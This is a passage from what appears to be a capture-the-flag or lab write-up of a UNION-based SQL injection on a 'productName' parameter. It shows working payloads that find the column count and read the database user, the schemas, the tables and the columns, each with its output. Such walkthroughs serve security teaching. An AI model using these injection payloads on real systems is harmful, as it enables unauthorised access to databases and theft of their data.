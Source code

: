 At 7 it shows a different error, which means that there are 7 columns:
```
Error: SQLSTATE[42S22]: Column not found: 1054 Unknown column '7' in 'order clause'
```

So it is possible to inject own strings into the response:
```
productName=p' union select test,2,3,4,5,6 -- -
```

Instead of injecting random strings, SQL queries will be used to get information out of the database:
```
productName=p' union select (user()),2,3,4,5,6 -- -
```
```
manager@localhost
```

Enumerating the databases with the **INFORMATION_SCHEMA**:
```
productName=p' union select (select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),2,3,4,5,6 -- -
```
```
information_schema,mysql,warehouse
```

Displaying the tables in the _warehouse database_:
```
productName=p' union select (select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'warehouse'),2,3,4,5,6 -- -
```
```
product,product_category,product_pack
```

Displaying the columns of the tables in the _warehouse database_:
```
productName=p' union select (select group_concat(TABLE_NAME,":",COLUMN_NAME SEPARATOR '\n') from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = 'warehouse'),2,3,4,5,6 -- -
```
```
product:id
product:name
product:quantity
product:category
product:price
product:tax
product_category:id
product_category:category
product_pack:id
product_pack:pack_id
product_pack:pack_name
product_pack:product
product_pack:quantity
```
